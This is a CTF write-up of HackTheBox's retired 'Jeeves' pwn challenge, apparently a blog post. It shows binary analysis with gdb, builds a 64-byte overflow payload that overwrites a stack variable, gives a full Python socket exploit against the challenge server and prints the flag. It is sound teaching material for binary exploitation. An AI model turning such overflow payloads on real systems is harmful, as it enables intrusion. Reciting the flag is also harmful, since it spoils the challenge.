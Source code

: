 ```yaml
---
layout: post
title: HackTheBox - Jeeves (Pwn) (Retired Challenge)
date: 2021-04-16
categories: HackTheBox pwn
---
```


Category: Pwn

Difficulty: Easy

Challenge Creator: MinatoTW

## Overview
This challenge is part of Hack The Box's Intro to Binary Exploitation track and, while not particularly difficult, serves as a good introduction to practice some fundamental concepts. In this example we cover some common file analysis techniques, disassemble an executable using gdb, and perform basic byte manipulation and network programming with python 3.


## File Analysis
After downloading and extracting the file, we can begin by running `file` to better understand what this file is. The result shows that the file is a x86-64 linux unstripped executable.
```
$file jeeves
jeeves: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=18c31354ce48c8d63267a9a807f1799988af27bf, for GNU/Linux 3.2.0, not stripped

```
Next we'll run `checksec` to see what kind of protections the executable has. In this case, there are no stack canaries that we need to be concerned about overwritting, but ASLR (PIE) is enabled and the NX flag tells us that the stack is marked as non-executable.
```
$checksec --format=json --file=jeeves
{
   "jeeves":{
      "relro":"full",
      "canary":"no",
      "nx":"yes",
      "pie":"yes",
      "rpath":"no",
      "runpath":"no",
      "symbols":"yes",
      "fortify_source":"no",
      "fortified":"0",
      "fortify-able":"3"
   }
}
```
We can also quickly run `strings` to see if there is anything of note. Below we can see what looks to be a prompt, and a `flag.txt` file near some formatting flags `%s`, so perhaps we can get the program to pring the contents of flag.txt somehow.
```
$strings jeeves
...[truncated]...
Hello, good sir!
May I have your name? 
Hello %s, hope you have a good day!
flag.txt
Pleased to make your acquaintance. Here's a small gift: %s
...[truncated]...
```
Since the executable is not stripped, we can disassemble the executable by `disass main` in gdb. The starred line in the output below shows a comparison of the value at `rbp-4` to `0x1337bab3`. If this comparison fails, the application jumps to `main+191` where it exits. If the comparison succeeds, the application eventually calls `open`, `read`, and `print`, which may be associated with the `flag.txt` we found earlier.
```m
(gdb) disass main
Dump of assembler code for function main:
   0x00000000000011e9 <+0>:	endbr64 
   0x00000000000011ed <+4>:	push   %rbp
   0x00000000000011ee <+5>:	mov    %rsp,%rbp
   0x00000000000011f1 <+8>:	sub    $0x40,%rsp
   0x00000000000011f5 <+12>:	movl   $0xdeadc0d3,-0x4(%rbp)
   0x00000000000011fc <+19>:	lea    0xe05(%rip),%rdi        # 0x2008
   0x0000000000001203 <+26>:	mov    $0x0,%eax
   0x0000000000001208 <+31>:	call   0x10a0 <printf@plt>
   0x000000000000120d <+36>:	lea    -0x40(%rbp),%rax
   0x0000000000001211 <+40>:	mov    %rax,%rdi
   0x0000000000001214 <+43>:	mov    $0x0,%eax
   0x0000000000001219 <+48>:	call   0x10d0 <gets@plt>
   0x000000000000121e <+53>:	lea    -0x40(%rbp),%rax
   0x0000000000001222 <+57>:	mov    %rax,%rsi
   0x0000000000001225 <+60>:	lea    0xe04(%rip),%rdi        # 0x2030
   0x000000000000122c <+67>:	mov    $0x0,%eax
   0x0000000000001231 <+72>:	call   0x10a0 <printf@plt>
***0x0000000000001236 <+77>:	cmpl   $0x1337bab3,-0x4(%rbp)
   0x000000000000123d <+84>:	jne    0x12a8 <main+191>
   0x000000000000123f <+86>:	mov    $0x100,%edi
   0x0000000000001244 <+91>:	call   0x10e0 <malloc@plt>
   0x0000000000001249 <+96>:	mov    %rax,-0x10(%rbp)
   0x000000000000124d <+100>:	mov    $0x0,%esi
   0x0000000000001252 <+105>:	lea    0xdfc(%rip),%rdi        # 0x2055
   0x0000000000001259 <+112>:	mov    $0x0,%eax
   0x000000000000125e <+117>:	call   0x10f0 <open@plt>
   0x0000000000001263 <+122>:	mov    %eax,-0x14(%rbp)
   0x0000000000001266 <+125>:	mov    -0x10(%rbp),%rcx
   0x000000000000126a <+129>:	mov    -0x14(%rbp),%eax
   0x000000000000126d <+132>:	mov    $0x100,%edx
   0x0000000000001272 <+137>:	mov    %rcx,%rsi
   0x0000000000001275 <+140>:	mov    %eax,%edi
   0x0000000000001277 <+142>:	mov    $0x0,%eax
   0x000000000000127c <+147>:	call   0x10c0 <read@plt>
   0x0000000000001281 <+152>:	mov    -0x10(%rbp),%rax
   0x0000000000001285 <+156>:	mov    %rax,%rsi
   0x0000000000001288 <+159>:	lea    0xdd1(%rip),%rdi        # 0x2060
   0x000000000000128f <+166>:	mov    $0x0,%eax
   0x0000000000001294 <+171>:	call   0x10a0 <printf@plt>
   0x0000000000001299 <+176>:	mov    -0x14(%rbp),%eax
   0x000000000000129c <+179>:	mov    %eax,%edi
   0x000000000000129e <+181>:	mov    $0x0,%eax
   0x00000000000012a3 <+186>:	call   0x10b0 <close@plt>
   0x00000000000012a8 <+191>:	mov    $0x0,%eax
   0x00000000000012ad <+196>:	leave  
   0x00000000000012ae <+197>:	ret    
End of assembler dump.
```

## Exploitation
We can start by trying to get the comparison to pass and seeing what happens. To do this, we need to write the value 0f `0x1337bab3` into memory at `rbp-4`. If we take a closer look at lines `main+8` and `main+12` in the instructions above, we see that the stack size is is `0x40 (64 bytes)` to `rsp`, and that the value currently stored at `rbp-4` is `0xdeadc0d3`. This means that to overwrite this value we need a buffer of 60 bytes plus our four byte value. Testing this locally gives an interesting prompt that looks promising.

```
$python3 -c "import sys;sys.stdout.buffer.write(b'A' * 60 + b'\xb3\xba\x37\x13')" | ./jeeves 
Hello, good sir!
May I have your name? Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��7, hope you have a good day!
Pleased to make your acquaintance. Here's a small gift: 
```

Note that since we're using python 3 we want to use bytes, and when writing to the terminal we use `sys.stdout.write()` instead of `print()`. Additionally, we write `1337bab3` as `\xb3\xba\x37\x13` to account for the little endian byte ordering of x86 architecture. Consider the following variations of this code and the corresponding hexdumps. Note that example 1 almost gives the correct output, but due to unicode formatting we end up with some extra bytes. Example 2 attempts to convert this to bytes, but we once again end up with the wrong values due to formatting from python 3's `print()`. In example 3 we skip `print()` altogether and send our bytes directly to `sys.stdout.write()` to avoid annoying string formatting. Luckily this isn't an issue when we send our payload over a network connection, which we will do when creating out remote exploit.

```
Example 1

$python3 -c "print('A' * 60 + '\xb3\xba\x37\x13')" > payload
$hexdump payload
0000000 4141 4141 4141 4141 4141 4141 4141 4141
*
0000030 4141 4141 4141 4141 4141 4141 b3c2 bac2
0000040 1337 000a                              
0000043

Example 2

$python3 -c "print(b'A' * 60 + b'\xb3\xba\x37\x13')" > payload
$hexdump payload
0000000 2762 4141 4141 4141 4141 4141 4141 4141
0000010 4141 4141 4141 4141 4141 4141 4141 4141
*
0000030 4141 4141 4141 4141 4141 4141 4141 785c
0000040 3362 785c 6162 5c37 3178 2733 000a     
000004d

Example 3

$python3 -c "import sys;sys.stdout.buffer.write(b'A' * 60 + b'\xb3\xba\x37\x13')" > payload
$hexdump payload
0000000 4141 4141 4141 4141 4141 4141 4141 4141
*
0000030 4141 4141 4141 4141 4141 4141 bab3 1337
0000040
```

## Full Implementation (Python 3.9)
```python
#!/usr/bin/python3

import socket

# Create a TCP connection
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Connect to the remote host running the application
client.connect(('139.59.178.146', 31974))

# Craft the payload we tested plus '\n' to denote the
# the end of our input
payload = b'A' * 60 + b'\xb3\xba\x37\x13\n'

# Send the payload to the remote host
client.send(payload)

# Receive the response and print it
response = client.recv(4096)
print(response)

# Close the TCP connection
client.close()

```
```
$./exploit.py 
b"Hello, good sir!\nMay I have your name? Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb3\xba7\x13, hope you have a good day!\nPleased to make your acquaintance. Here's a small gift: HTB{w3lc0me_t0_lAnd_0f_pwn_&_pa1n!}\n\n"
```